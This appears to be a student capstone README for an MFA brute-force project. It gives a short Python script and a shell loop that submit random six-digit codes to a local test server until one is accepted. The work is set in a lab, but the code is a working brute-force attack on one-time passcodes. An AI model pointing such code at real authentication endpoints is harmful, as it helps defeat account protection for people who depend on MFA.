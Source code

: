 # MFAbruteforce
MSU Denver Capstone project. Brute forcing MFA six digit passcodes

#below is the code I used to generate numbers for MFA brute force. Michael Fincham's code found here https://git.sr.ht/~fincham/otpbrute, I had to simplify his code down for my use. 
#The code below was run in conjunction with code from Tim Goddard https://github.com/pruby/otp-brute-test
#!python3

import random	
import urllib.request

#always be 401 error unless correct guess, which is code 200
if True == True:
	Num = random.randint(100000,999999)
	print (Num)
	url = "http://127.0.0.1:3000/check?code="
	urlNum = Num
	urlAppend = str(url) + str(urlNum)
	print (urlAppend)
	with urllib.request.urlopen(urlAppend) as response:
		html=response.read()

#the script is what made the code above repeat as it could not do it on its own. 
#! /bin/sh

until python3 numberGenerator.py
do
	python3 numberGenerator.py
done
